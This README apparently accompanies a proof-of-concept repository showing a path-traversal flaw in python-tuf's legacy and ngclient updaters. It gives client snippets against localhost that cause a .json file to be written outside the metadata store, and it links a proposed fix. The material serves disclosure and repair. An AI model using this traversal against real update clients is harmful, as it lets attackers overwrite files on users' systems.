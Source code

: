 # TUF client metadata path-traversal proof of concept

This repository will fool both python-tuf client implementations to write 
(overwrite) a file outside of the client metadata store when
`get_one_valid_targetinfo()` is called. For this specific example, the
file will be written one level above the metadata directory but likely
any arbitrary filepath (with .json extension) is possible.

### Examples assuming the repository root is hosted at `http://localhost:8000/`:

#### Legacy Updater
```python
# Directories ./metadata/current/ and ./metadata/previous/ must exist.
# Initial root must be in ./metadata/current/root.json.

import tuf.settings
from tuf.client.updater import Updater

tuf.settings.repositories_directory = "./"
repo_mirrors = {
    "mirror1": {
        "url_prefix": "http://localhost:8000",  "metadata_path": "", "targets_path": ""
    }
}
updater = Updater("", repo_mirrors)
updater.refresh()
updater.get_one_valid_targetinfo("any target name here")

# Local metadata dir is ./metadata/current/ but ./metadata/ now contains
# path-traversal-test.json
```

#### ngclient Updater

```python
# Initial root must be in ./root.json.

from tuf.ngclient import Updater
updater = Updater("./", ""http://localhost:8000/", "http://localhost:8000/")
updater.refresh()
updater.get_one_valid_targetinfo("any target name here")

# Local metadata dir is ./ but ../ now contains path-traversal-test.json
```

### More info

Thoughts on the issues TUF/python-tuf has with rolenames being used in filenames/URLS:  [ISSUE-DESCRIPTION.md](ISSUE-DESCRIPTION.md)

Potential solution: [URL-ENCODING.md](URL-ENCODING.md) -- note that fixing the path traversal is easy (_encode rolename before using as filename_), but the document outlines some related future improvements as well
